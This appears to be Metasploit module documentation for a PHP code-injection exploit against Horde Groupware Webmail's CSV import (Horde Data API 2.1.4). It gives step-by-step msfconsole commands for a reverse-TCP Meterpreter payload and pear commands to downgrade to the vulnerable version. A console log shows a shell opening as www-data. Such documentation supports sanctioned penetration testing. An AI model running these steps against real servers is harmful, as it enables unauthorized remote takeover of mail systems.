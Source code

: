 ## Vulnerable Application

The Horde project comprises several standalone applications and libraries, the [Horde Groupware Webmail Edition suite](https://www.horde.org/apps/webmail) (tested version 5.2.22) bundles several of them by default, among those, Data ([Horde Data API](https://github.com/horde/Data)) is a library used to manage data import/export in several formats, e.g., CSV, iCalendar, vCard, etc. This library up to version 2.1.4 (included) is vulnerable to PHP code injection.

Find more information in the [original advisory](https://cardaci.xyz/advisories/2020/03/10/horde-groupware-webmail-edition-5.2.22-rce-in-csv-data-import/).

## Verification Steps

  1. Install the application (see below)
  2. Start msfconsole
  3. Do: ```use exploit/multi/http/horde_csv_rce```
  4. Do: ```set payload php/meterpreter/reverse_tcp```
  5. Do: ```set lhost [ATTACKER IP]```
  6. Do: ```set rhost [TARGET IP]```
  7. Do: ```set username [username]```
  8. Do: ```set password [password]```
  9. Do: ```exploit```
 10. A session should open

Downgrade the Horde Data API package if needed:

```
pear uninstall --ignore-errors horde/horde_data-2.1.5
pear install --ignore-errors horde/horde_data-2.1.4
```

## Scenarios

### Horde Groupware Webmail Edition 5.2.22 with Horde Data API 2.1.4 on Debian GNU/Linux 9

```
msf5 > use exploit/multi/http/horde_csv_rce
msf5 exploit(multi/http/horde_csv_rce) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf5 exploit(multi/http/horde_csv_rce) > set lhost 192.168.1.69
lhost => 192.168.1.69
msf5 exploit(multi/http/horde_csv_rce) > set rhost 192.168.1.69
rhost => 192.168.1.69
msf5 exploit(multi/http/horde_csv_rce) > set username alice
username => alice
msf5 exploit(multi/http/horde_csv_rce) > set password alice
password => alice
msf5 exploit(multi/http/horde_csv_rce) > exploit

[*] Started reverse TCP handler on 0.0.0.0:4444
[*] Sending stage (38288 bytes) to 172.17.0.1
[*] Meterpreter session 1 opened (172.17.0.2:4444 -> 172.17.0.1:44524) at 2020-03-14 14:55:17 +0000

meterpreter > getuid
Server username: www-data (33)
```
